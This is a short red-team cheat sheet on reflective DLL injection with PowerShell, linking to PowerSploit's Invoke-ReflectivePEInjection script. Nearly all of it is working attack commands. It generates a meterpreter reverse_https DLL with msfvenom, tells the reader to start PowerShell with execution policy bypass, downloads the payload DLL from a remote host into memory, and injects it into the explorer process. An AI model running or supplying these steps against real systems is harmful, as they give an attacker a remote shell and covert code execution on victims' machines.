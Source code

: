 ## Reflective DLL Injection in PowerShell

- https://ppn.snovvcrash.rocks/red-team/maldev/code-injection/dll-injectors#reflective-dll-injection-rdi

- https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1


#### In order to execute the required commands, we must open a PowerShell window with “PowerShell -Exec Bypass”,

1 - msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.0.1 LPORT=443 EXITFUNC=thread -f dll -o evil.dll

2 - 
```
$bytes = (New-Object`System.Net.WebClient).DownloadData('http://192.168.119.120/met.dll')

$procid = (Get-Process -Name explorer).Id
```

3 - Import-Module .\Invoke-ReflectivePEInjection.ps1

4 - Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid